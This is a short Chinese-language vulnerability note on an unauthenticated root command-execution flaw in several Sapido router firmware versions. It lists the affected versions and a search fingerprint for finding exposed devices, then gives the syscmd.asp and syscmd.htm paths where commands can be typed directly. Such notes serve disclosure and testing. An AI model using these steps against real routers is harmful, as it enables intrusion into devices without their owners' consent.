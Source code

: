 # Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

<a-checkbox checked>BR270n-v2.1.03</a-checkbox></br>

<a-checkbox checked>BRC76n-v2.1.03</a-checkbox></br>

<a-checkbox checked>GR297-v2.1.3</a-checkbox></br>

<a-checkbox checked>RB1732-v2.0.43</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Sapido-路由器"</a-checkbox></br>

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行



![img](../../../.vuepress/public/img/sa-1.png)



访问目标:



```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```



![img](../../../.vuepress/public/img/sa-2.png)



直接输入就可以命令执行了
